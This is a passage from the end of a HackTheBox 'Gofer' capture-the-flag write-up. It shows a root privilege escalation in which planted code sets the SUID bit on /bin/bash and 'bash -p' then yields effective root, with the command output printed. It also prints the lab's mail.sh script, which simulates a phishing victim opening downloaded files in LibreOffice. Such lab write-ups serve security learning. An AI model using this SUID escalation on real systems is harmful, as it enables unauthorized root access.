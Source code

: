 
Now that I have executed the backup function, the malicious code was executed and `/bin/bash` has a SUID bit set.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash

```

Since `/bin/bash` is owned by root and has the SUID bit set, I can execute bash in in privileged mode granting effective root privileges.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ bash -p
(remote) root@gofer.htb:/dev/shm# id
uid=1002(tbuckley) gid=1002(tbuckley) euid=0(root) egid=0(root) groups=0(root),1002(tbuckley),1004(dev)
```


**Pwned!!**


## Beyond Root

I was curious how the phishing attempt was stimulated in this HackTheBox environment since there are no real users. The `mail.sh` script in the root directory helps shed a light on this.

- All URLs in the email sent to the user, `jhudson` are collected in the URLS variable
- For each URL the linked files are downloaded to `jhudson`'s download directory.
- Next the ownership is changed to `jhudson` and file permissions to "755", making them executable by `jhudson`.
- LibreOffice is executed in headless mode to open the downloaded files in view-only mode. This represents a scenario where a malicious macro could potentially be triggered.
- There's also a wait period of 3 seconds, which I am assuming is to mimic user interaction.

```bash
(remote) root@gofer.htb:/root/scripts# cat mail.sh
#!/bin/bash

USER="jhudson"
URLS=$(/usr/bin/grep -Eo 'http://[^ >]+' /var/mail/$USER)

/usr/bin/mkdir /home/$USER/Downloads

for u in $URLS
do
    echo $u;
    NAME=$(basename $u|cut -d '.' -f 1)
    EXT=$(basename $u|cut -d '.' -f 2)
    RANDOMNB=$(date +%s%N)
    FILENAME="$NAME$RANDOMNB.$EXT"
    timeout 10 wget -O "/home/$USER/Downloads/$FILENAME" $u
    /usr/bin/chown $USER:$USER /home/$USER/Downloads/$FILENAME
    /usr/bin/chmod 755 "/home/$USER/Downloads/$FILENAME"
    sleep 3
    /bin/su -c "cd /usr/bin; ./libreoffice -env:SingleAppInstance=false --norestore --view --headless --nologo --nolockcheck --eventtesting /home/$USER/Downloads/$FILENAME &" $USER
    sleep 3
    /usr/bin/killall oosplash
done

echo "" > /var/mail/$USER
rm -rf /home/$USER/Downloads/*
```
